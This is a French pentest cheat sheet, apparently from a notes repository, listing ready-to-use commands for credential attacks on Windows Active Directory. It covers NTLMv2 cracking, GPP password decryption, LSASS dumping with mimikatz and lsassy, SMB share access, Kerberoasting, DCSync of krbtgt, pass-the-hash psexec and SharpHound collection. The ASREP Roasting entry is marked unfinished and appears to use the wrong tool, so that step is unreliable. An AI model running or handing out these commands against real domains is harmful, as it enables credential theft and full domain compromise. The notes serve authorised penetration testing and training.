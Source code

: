 # Attaques Windows avec identifiants

## 1. Obtention d'identifiants / hash NTLM

### 1.1. Cracking

> Entrée : Hash Net-NTLMv2 obtenu au préalable
>
> Objectif : Obtenir le mot de passe de l'utilisateur

```bash
$ john --format=netntlmv2 --wordlist="/usr/share/wordlists/rockyou.txt" hash.txt

$ hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```



### 1.2. MS14-025 (GPO)

> **SYSVOL** est un partage réseau regroupant entre autre les éléments qui doivent être accessibles pour l’ensemble des ordinateurs du domaine (e.g. scripts de connexion, GPO, …). Il se situe sur les controleurs de domaine.
>
> Entrée : Accès à un partage SYSVOL sur la machine <IP> (compte du domaine)
>
> Objectif : Obtenir le mot de passe de l'utilisateur utilisé pour appliquer la GPO (généralement l'administrateur local)

```bash
# Connexion au préalable sur le partage SMB SYSVOL
$ cd \DOMAIN\Policies\{UNE-CLE-GPO}\Machine\Preferences\Groups\
$ cat Groups.xml
$ gpp-decrypt <HASHED_PASSWORD>

# Ou plus facile, utilisation du module gpp_password CME
$ cme smb <IP> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password
```



### 1.3 Dump LSASS

> Récupération des hash NTLM des comptes s'étant connectés sur la machine
>
> Entrée : compte administrateur local d'une machine cliente
>
> Objectifs : récupérer un hash HTLM d'un compte du domaine

```bash
# A distance
$ crackmapexec smb <IP_PARTAGE> -u USERNAME -p PASSWORD -M lsassy 

# Si déjà connecté sur le poste client
C:\> .\mimikatz.exe 
```





## 2. Exploitation avec identifiants / hash NTLM

### 2.1 Exploitation des partages réseau

#### 2.1.1 Listing des partages réseaux SMB

> Entrée : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : lister les partages réseaux SMB présents sur une machine <IP>

```bash
# Sur une machine cliente
$ crackmapexec smb <IP_CLIENT> -u "USERNAME" -p 'PASSWORD' --shares --local-auth

# Sur un contrôleur de domaine
$ crackmapexec smb <IP_DC> -u "USERNAME" -H <HASH_NTLM> --shares
```

- Si utilisation d'un compte local, spécifier l'option --local-auth ;

- CME vient confirmer les identifiants utilisés et indique la mention "Pwn3d!" si c'est un compte ayant les droits d'un **administrateur local**. Si c'est un compte du domaine, il l'indique en vert.

  

#### 2.1.2 Accès aux partages réseaux SMB

> Entrée : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : accéder et lire les fichiers présents sur les partages réseau SMB

```bash
# Sur une machine client
$ impacket-smbclient 'USERNAME:PASSWORD@<IP_CLIENT>'

# Sur un contrôleur de domaine
$ impacket-smbclient -hashes :<HASH_NTLM> DOMAIN/USERNAME@<IP_DC>     
```

Voir [smbclient](./smclient.md) pour consulter les actions réalisables



### 2.2 Attaques liées au compte de service

#### 2.2.1 Kerberoasting

> Entrée : Compte utilisateur avec le droit d'utiliser le service
>
> Objectif : Récupérer un TGS (ticket signé avec le mot de passe du compte de service) pour le cracker et obtenir le mot de passe du compte de service

```bash
$ impacket-GetUserSPNs -request -dc-ip <IP_DC> 'DOMAIN/USERNAME:PASSWORD'
```



#### 2.2.2 ASREP Roasting (WIP)

> Se base sur la possibilité de demander un ticket de service en tant qu'un utilisateur du domaine sans connaître son mot de passe.
>
> Entrée : Connaissance du compte de service dont on veut un ticket / paramétrage de l'utilisateur de domaine "pas de pré-authentification Kerberos"
>
> Objectif : Récupérer un TGT pour le cracker et obtenir le mot de passe du compte de service

```bash
$ impacket-GetUserSPNs 'DOMAIN/USERNAME' -no-pass
```



#### 2.2.3 DCSync

> Se base sur le fait qu'un compte de service ait les droits de répliquer les modifications d'un annuaire (i.e. synchronisation de tout l'annuaire)
>
> Entrée : Compte de service avec les droits DCSync
>
> Objectif (court) : Devenir administrateur du domaine (Administrateur ou KRBTGT)
>
> Objectif (long) : Répliquer l'annuaire pour ensuite lire les modifications du fichier NTDS.dit et donc récupérer tous les hash des utilisateurs du domaine, dont l'administrateur du domaine

```bash
$ impacket-secretsdump 'DOMAINE/USERNAME:PASSWORD@<IP_DC>' -just-dc-user krbtgt
```



### 2.3 Autre

#### 2.3.1 Connexion sur un poste distant

> Entrée : Identifiants d'un utilisateur / hash NTLM (au moins admin local ?)
>
> Objectifs : exécuter des commandes sur le serveur / lire des fichiers / dump LSASS / etc.
>
> Autre objectif : si la machine cliente est relié à l'AD, lancer SharpHound pour utiliser BloodHound

```bash
# Sur une machine client
$ impacket-psexec 'USERNAME:PASSWORD@<IP_CLIENT>'
# Hash LM vide : aad3b435b51404eeaad3b435b51404ee / Remplacer par hash LM s'il y en a un
$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:<HASH_NT> 'USERNAME@<IP_CLIENT>'
```



#### 2.3.2 SharpHound 

> Entrée : Connexion sur un poste distant du domaine
>
> Objectif : Extraire les informations de l'annuaire pour ensuite élaborer des chemins de compromissions via BloodHound

```powershell
# Génère un fichier à donner en entrée à BloodHound
C> SharpHound.exe --outputdirectory C:\ --CollectionMethod All
```

